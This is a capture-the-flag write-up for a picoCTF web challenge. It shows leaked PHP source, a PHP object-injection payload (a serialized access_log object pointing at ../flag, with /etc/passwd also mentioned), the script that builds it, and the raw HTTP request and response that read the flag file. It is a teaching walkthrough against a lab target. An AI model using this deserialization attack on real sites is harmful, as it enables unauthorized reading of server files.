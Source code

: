 ## Description
Try to recover the flag stored on this website http://mercury.picoctf.net:3449/

## Solution
We are given a login page. seem the login page is not vulnerable.
Checking `robots.txt` hints on:

```
User-agent: *
Disallow: /admin.phps
```

But checking `admin.phps` path doesn't give us anything:
maybe we need to check phps pathes instead of .php.
So checking `index.phps`:
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

seems like the `phps` files show the raw php. Let's use this feature on other files on server and see if we can view their sources.

and checking `authentication.phps`:
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

in this file, the function `file_get_contents` is vulnerable to LFI.
But we need to find a way to input our value in this method.

Also it seem there is another file to handle cookies of this site. checking `cookie.phps`:
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

`unserialize` method is also vulnerable to php objection injection.
So the attack scenario is accessible now:
- we need to pass our pyaload in login value in cookie which is a serialized object.
- because we want to read flag file, we should use access_log class `read_log` method.
- to see the `../flag` file contents, we need to create a serialized string of access_log which `log_file` value is set to `../flag` (Note it should be base64 encoded)

Ok now we create a instance of `access_log` with log_file equal to `/etc/passwd`.


```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}
}

$serializer = new access_log("/etc/passwd");
$serialized_value = serialize($serializer);
echo base64_encode($serialized_value);
```
and run it with php shell using `php -a` as follow:

```bash
$ php -a
Interactive shell

php > class access_log
{
        public $log_file;

        function __construct($lf) {
                $this->log_file = $lf;
        }
}

$serializer = new access_log("../flag");
$serialized_value = serialize($serializer);
echo base64_encode($serialized_value);
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

and send `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` in `login` value in `cookie` like follow:

```
GET /authentication.php HTTP/1.1
Host: mercury.picoctf.net:3449
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://mercury.picoctf.net:3449
Connection: close
Referer: http://mercury.picoctf.net:3449/index.php
Cookie: auth_name=TE1YOFZTSU0zYWh1VkpjYUVNQTdXVG01clZRbVplb0NWQWdSZ1hPNCsxRUhMQ3FQUEdWdEttaWhXbm1qbW1Ja3JDWVpLWW8vYVlMTVZsazVCZXlkWkpIZHhyMzRpMmFMTUQ2b1Q1dGtuQmQyeGZNQUlaNFpGaGwzdzc5MkM3TXQ=; name=18; PHPSESSID=j62q4iq5g1nosspa3vvp9puc14; login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
Upgrade-Insecure-Requests: 1

```

Note to send request to `authenticaion.php` path. because in this path the access_log object is deserialized and access.

and will print the contents of `../flag` file:
```
HTTP/1.1 200 OK
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8

Deserialization error. picoCTF{XXXXXXX}
```